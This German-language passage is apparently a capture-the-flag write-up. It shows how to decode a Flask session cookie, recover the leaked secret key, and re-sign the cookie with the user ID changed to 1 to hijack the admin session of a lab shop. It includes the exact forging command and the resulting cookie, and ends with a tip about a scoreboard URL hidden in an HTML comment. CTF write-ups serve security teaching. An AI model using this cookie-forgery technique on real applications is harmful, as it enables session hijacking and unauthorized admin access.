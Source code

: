 Ergebnis:

{"_fresh":true,"_id":"188abe2080510471c917cefd86eae0a2f77a1c2c81cec0d1083d90e9fb3a12b3e30ea7e92750e8d33391cc0e49fe0167a17e1a090b0a06d9838e17d798d8572e","csrf_token":"f5d3fc7182a50c3fef0cb1c16167dfa83281aab0","secret_key":"this_is_a_really_secret_key","user_id":"173"}

Am Ende des ganzen sieht man "secret_key":"this_is_a_really_secret_key" und "user_id":"173".
Der Secret Key ermöglicht es einen nun Cookies zu signieren und die UserID kann abgeändert werden.
Man kann davon ausgehen, dass der Admin Account der erste erstellte Account ist, also entweder 1 oder 0.

Das script verspricht ein besseres Ergebnis, wenn man beim Decodieren auch den secret key mit angibt. Also erweitere ich den oberen Befehl um "-s 'this_is_a_really_secret_key'".
Neues Ergebnis:

{u'csrf_token': u'f5d3fc7182a50c3fef0cb1c16167dfa83281aab0', u'_fresh': True, u'user_id': u'173', u'secret_key': u'this_is_a_really_secret_key', u'_id': u'188abe2080510471c917cefd86eae0a2f77a1c2c81cec0d1083d90e9fb3a12b3e30ea7e92750e8d33391cc0e49fe0167a17e1a090b0a06d9838e17d798d8572e'}

Wie man sieht, sind nun die Typen mit übergeben. Diese braucht man vermutlich um den Cookie neu zu signieren, daher werden wir mit diesem neuen Ergebnis weiterarbeiten.
Man kann also nun die UserID auf 1 abändern, um die Session dieses Nutzers zu übernehmen. "_fresh" sollte man auf True lassen, da man sonst sich möglicherweise neu einloggen muss.

Kommando zum signieren:

python session_cookie_manager.py encode -s 'this_is_a_really_secret_key' -t "{u'csrf_token': u'f5d3fc7182a50c3fef0cb1c16167dfa83281aab0', u'_fresh': True, u'user_id': u'1', u'secret_key': u'this_is_a_really_secret_key', u'_id': u'188abe2080510471c917cefd86eae0a2f77a1c2c81cec0d1083d90e9fb3a12b3e30ea7e92750e8d33391cc0e49fe0167a17e1a090b0a06d9838e17d798d8572e'}"

Ergebnis:

.eJxNj7GKAzEMRP_F9RaSHa_k_IyR5TEJCXfg3RQh3L-fiysOphveY-YT6pg4buF6zhe2UO89XAOrWkMkpcx0EfbC4hhddxjI4hAx9ujKDqfOpKkXQhktGceWkAgmKFEyQXtKqbA74VIGiPcFC9ioUCOjvRdNCpYuRbtmiQhb8GOOen4_8LX2jNzTcGGNlsnTwCBv7LwvVx-mKSqbNVrcAZ846wPvxZ23-1FXrE7Y8_mu_9otvA7Mv7_h5xfPuk9n.XA-qZg.yxVEKviunXhRBTOGI2K8xpkof6M

Wenn man alles richtig gemacht hat, sollte man nun mit dem Admin Account eingeloggt sein und man sollte auf die Shopadmin Seite zugreifen können, welche nur als shopadmin verfügbar ist. Dort befindet sich dann die Flagge.


### Scoreboard erreichen
Es gibt eine Scoreboard URL die im quelltext als Kommentar versteckt ist. Sie befindet sich dort wo auch die anderen anklickbaren links sind. Bei Der url ist auch direkt eine einlösbare Flagge die, wenn eingelöst, danach das Scoreboard auch als anklickbaren Link verfügbar macht.
